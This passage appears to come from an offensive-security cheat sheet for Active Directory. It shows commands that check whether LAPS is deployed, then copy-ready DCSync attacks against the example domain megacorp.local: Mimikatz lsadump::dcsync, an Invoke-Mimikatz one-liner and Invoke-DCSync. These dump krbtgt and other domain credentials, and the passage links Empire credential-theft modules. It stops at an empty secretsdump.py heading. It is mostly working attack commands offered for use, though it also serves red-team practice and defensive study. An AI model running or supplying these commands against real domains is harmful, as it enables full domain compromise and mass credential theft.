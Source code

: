 

### Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```




## DCSync



### Mimikatz

```
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```


#### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```
PS > Invoke-Mimikatz '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```



### Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC01.megacorp.local
```



### secretsdump.py
